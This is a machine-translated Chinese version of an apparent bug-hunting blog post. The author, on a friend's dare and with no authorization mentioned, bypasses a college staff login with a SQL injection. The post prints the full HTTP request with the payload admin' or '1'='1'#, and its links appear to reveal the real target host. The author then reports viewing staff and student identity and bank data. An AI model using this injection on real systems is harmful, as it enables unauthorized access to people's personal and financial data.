

# 我是怎么在学院网站上曝光老师的 Aadhaar 卡，银行明细的。

> 原文：<https://infosecwriteups.com/how-i-exposed-the-teachers-aadhaar-card-bank-details-in-the-college-website-3e8d44446378?source=collection_archive---------3----------------------->

嘿，各位黑客和臭虫猎人们，

在我和 Bug 狩猎之间的漫长间隙之后，我带着一篇评论回来了。

有一天，我结束了实习工作，就和朋友去打板球。他们问我你是否有谷歌荣誉奖，但这并不意味着你是一个真正的猎人。他说，就像如果你是一个真正的猎人，你能在我的大学网站上检索我的信息。

像往常一样，我不打算透露目标网页。我访问了他的大学网页，并探索其功能。我一看到员工登录页面。我转到了登录页面。像往常一样，如果我们看到一个登录页面，我们肯定会尝试一下 SQLi。我尝试了一些有效载荷，但我不能在文本框中输入有效载荷，有一个客户端验证来停止这些类型的注入。

> 但是，只有客户端验证。

愚蠢的家伙..

打开我的打嗝捕捉请求编辑用户名参数为“管理”或“1”=“1”#”并发送请求…booom！！！！。我以管理员身份登录，拥有管理员权限。

> POST /Staff/loginProcess.jsp？submit=Log%20In HTTP/1.1
> 主机:test.com
> 用户代理:Mozilla/5.0(X11；Linux x86 _ 64RV:78.0)Gecko/2010 01 01 Firefox/78.0
> 接受:text/html，application/xhtml+xml，application/XML；q=0.9，image/webp，*/*；q=0.8
> 接受-语言:en-US，en；q=0.5
> Accept-Encoding: gzip，deflate
> Content-Type:application/x-www-form-urlencoded
> Content-Length:37
> Origin:[https://test](https://leapshc.org:8443)。com
> 连接:关闭
> 引用: [https://test](https://leapshc.org:8443/Staff/) 。com
> Cookie:JSESSIONID = session；升级-不安全-请求:1
> 
> 用户名=管理员'或' 1 ' = ' 1 ' # &密码=管理员&提交=

当我以管理员身份登录后，我可以检索到所有学生的信息。甚至我可以看到老师的所有细节。我就像 WTF！！！

我可以输出所有的信息，甚至是账号，银行名称，个人信息。

感谢您阅读这篇文章。

请关注我，获取更多关于寻找 bug 的文章

在 Instagram 上关注我:[https://www.instagram.com/ram_0x_infosec/](https://www.instagram.com/ram_0x_infosec/)

在 Linkedin 上联系我:[https://www.linkedin.com/in/ram0xinfosec/](https://www.linkedin.com/in/ram0xinfosec/)

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。查看更多详情并在此注册。

 [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)